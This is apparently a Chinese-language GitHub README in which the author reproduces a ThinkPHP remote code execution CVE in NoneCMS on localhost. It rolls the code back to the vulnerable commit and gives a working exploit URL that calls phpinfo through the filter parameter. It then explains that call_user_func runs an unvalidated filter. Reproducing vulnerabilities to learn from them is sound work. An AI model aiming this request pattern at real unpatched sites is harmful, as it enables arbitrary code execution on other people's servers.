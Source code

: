 # Security-PHP-CVE
记录第一次CVE。

1、首先从公众号 得知CVE  

2、谷歌 bing 查  

3、在项目的开源项目上查到。具体出问题代码位置  （https://github.com/nangge/noneCms/issues/21）  

4、下载 项目  到网站目录下（localhost 即可）（nginx下）  

5、根据 3 知道出代码位置。 用https://github.githistory.xyz  找到thinkphp 核心代码修复修复时间  
（https://github.githistory.xyz/nangge/noneCms/blob/master/thinkphp/library/think/Request.php）

6、根据 5  的时间 ===》 在  
    https://github.com/nangge/noneCms/commits/master 找到 修复前的最后一次 commit_id

7、把项目代码退回到 出问题的 代码   
git reset --hard 712dc808448ff376d82d831410b9b53c6be4f85d
8、按照github 上提示 运行项目  
http://localhost/NoneCMS/public/install/

9、访问 http://localhost/NoneCMS/public/?s=index/\think\Request/input&filter=phpinfo&data=1

完美复现！！！

10、漏洞的主要原因。  
类反射，
$reflect = new ReflectionMethod($class, $method[1]);  

return $reflect->invokeArgs(isset($class) ? $class : null, $args);  

Request.php  
中方法 private function filterValue(&$value, $key, $filters)  
其中 有段代码  
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
                echo "hhh   lqqq";
                var_dump($filter, $value);
            }
            
==》 “$value = call_user_func($filter, $value)”    如果$filter 没有防御好，就会执行PHP解释器就会执行名字未$filter的函数（可以是框架里面的，也可以是PHP 原生提供的方法。）  ==》这就是 问的原因（因为你不知攻击者会执行什么函数。）  
===》 所以写代码，也没那么容易。哎！ 攻防转化呀！！！  

敬畏代码，不是一句空话。！！！

<img src="https://github.com/peng456/Security-PHP-CVE/blob/master/pic.png">
